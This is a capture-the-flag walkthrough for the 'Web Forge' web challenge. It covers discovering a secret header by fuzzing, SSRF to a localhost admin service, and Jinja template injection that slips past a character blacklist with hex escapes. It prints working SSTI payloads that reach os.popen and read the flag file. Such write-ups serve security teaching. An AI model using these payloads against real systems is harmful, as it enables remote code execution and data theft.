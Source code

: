 
# Web Forge Challenge Walkthrough

### Problem Description

`Web Forge` is a chained web challenge combining a very basic **Authorisation bypass**, **SSRF** and **Server-Side Template Injection (SSTI)**. The challenge mentioned that fuzzing is allowed.

```
NOTE FROM ADMINS: Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.
```

**The general flow to pwn this machine was the following:**

- discover a secret header
- use it to access `/fetch`
- use `/fetch` to SSRF into `127.0.0.1:8000`
- trigger SSTI on `/admin?template=`
- bypass character blacklist with hex escapes and read `flag.txt`.

## Part 1 — Authorisation bypass (discovering the secret header)

![[Pasted image 20250930220542.png]]

Upon landing on the website (https://wormhole.sunshinectf.games/) we see mention of an SSRF tool somewhere on the website. Navigating to this tool, we reach the `/fetch` endpoint which displays a basic error message `403 Forbidden: missing or incorrect SSRF access header`. Great, we have to somehow find out the name of the header and the correct value.

![[Pasted image 20250930221020.png]]

A little more lurking around leads us to the `robots.txt` file, letting us know:

1. That there exists an `/admin` endpoint probably useful for later on in the challenge
2. That whatever header we're looking for must be set to `true`

With this extra knowledge we can now go back to the `/fetch`and enumerate possible request header names until a header is accepted. We can do so using intruder as follows:

1. Send a `GET /fetch` request to Intruder.
2. Set a payload position for the header _name_ instead of a body parameter.
    - Create a header like: `{{FUZZ}}: true` (set header value to literal `true`).
3. Use `seclists` request-headers wordlist as the payload set (common header names).
4. Inspect responses — look at `Content-Length` / response code differences.

After running burpsuite, we can see that the request containing the header `Allow: true` changed the response revealing the secret header name is `Allow` and that its value must be `true`. If we now append that value to our request on the browser, the page renders.

![[Pasted image 20250930221520.png]]

---

## Part 2 — SSRF (finding an internal service)

Now that we have access to the tool, we can play around with the input to see what we can find. Since we have an input that takes in a URL, and SSRF is written all over the place, we can safely assume thats what it's going to be. 

If we want to see what the tool does in the backend, we can simply enter a URL we control (such as collaborator). In doing so we can see that it makes HTTP requests to the provided resource and returns the contents of the GET request it makes. Entering the URL `http://127.0.0.1:80` for instance, appears to work, however it returns a connection error:

![[Pasted image 20250930225356.png]]

This confirms the presence of SSRF, and gives us a new goal, which is to discover which localhost port is used by the local app so we can reach the internal admin panel. Once again we can use bupsuite intruder on the post parameter `url=http://127.0.0.1:{{FUZZ}}/` with a wordlist of common ports. We can use nmaps wordlist or any wordlist of our choice really.

![[Pasted image 20250930225013.png]]

Port `8000` responded as an active web server. So this confirms that the web server is running internally on that port.

## Part 3 — SSTI (admin template parameter)

When accessing `/admin` on the internal service, the app expects a query parameter `template=` if a directory is specified. The name suggests server-side template rendering (SSTI).

![[Pasted image 20250930225555.png]]

If we specify this parameter, we can see that whatever value we specify gets reflected in the server response. Adding the payload  `?template={{7*7}}`  returns `49` which is our proof of concept for the SSTI.

![[Pasted image 20250930225801.png]]

Now comes the hard part, we have to somehow weaponise this to ultimately get the flag. We can immediatly see that the template engine is likely to be `Jinja`, so payloads such as 
`{{config}}` and `{{cycler}}`) return valid (and useful) data, however the flag wasn't in any of these. With SSTIs the typical path to RCE is by importing `os` and running `popen` , however, the standard payloads didn't work and the server returns the message `Nope.`. 

The challenge enforced a blacklist/WAF that blocked many characters used in exploitation: `. , [ ]` and others. This prevents directly referencing things like `__globals__`, `__builtins__`, `__import__`, etc. This now means that we have to try throw whatever bypass method we know at the serve and hope that one sticks.
####  Bypass using hex escapes

The app allowed percent-encoded sequences and interpreted them inside the template engine. By replacing banned characters with hex escapes (`\xHH` sequences) — which after unescaping produce the required characters — we can reach `__globals__`, `__builtins__`, `__import__`, etc...

We can now use the `request` object -> `application` -> `__globals__` -> `__getitem__` -> `__builtins__` -> `__import__` to import `os`, call `popen('cat flag.txt')` and `.read()`.

This leads us to our final (PoC) payload which performs a simple directory listing in the current directory:

```
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x
```

![[Pasted image 20250930230637.png]]

This (although hard to see from the screenshot) shows us the command `ls -la`, which is great news! If we change the command to cat out the flag (using the hex bypass for the dot once again) and URL encode it, we get the following final payload:

```
http://127.0.0.1:8000/admin?template=%7b%7brequest%7cattr('application')%7cattr('%5cx5f%5cx5fglobals%5cx5f%5cx5f')%7cattr('%5cx5f%5cx5fgetitem%5cx5f%5cx5f')('%5cx5f%5cx5fbuiltins%5cx5f%5cx5f')%7cattr('%5cx5f%5cx5fgetitem%5cx5f%5cx5f')('%5cx5f%5cx5fimport%5cx5f%5cx5f')('os')%7cattr('popen')('cat+flag\x2Etxt')%7cattr('read')()%7d%7d
```

![[Pasted image 20250930230414.png]]

**FLAG:** `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`

## Final Notes - Why the payload works (brief explanation)

- Jinja (or the template engine in use) templates can be abused to access Python internals via `__globals__`, `__builtins__`, and `__import__`.
- The chain: `request → application → __globals__ → __getitem__('__builtins__') → __getitem__('__import__')('os') → os.popen('cat flag.txt').read()` executes a shell command and returns its output.
- The challenge had a blacklist blocking characters like `.` `[` `]` etc., so we encoded underscores and other problematic tokens using hex escapes (`\x5f` → `_`, `\x2E` → `.`), then percent-encoded the entire string for transport in the URL. The server unescaped and processed the resulting template, allowing the exploit.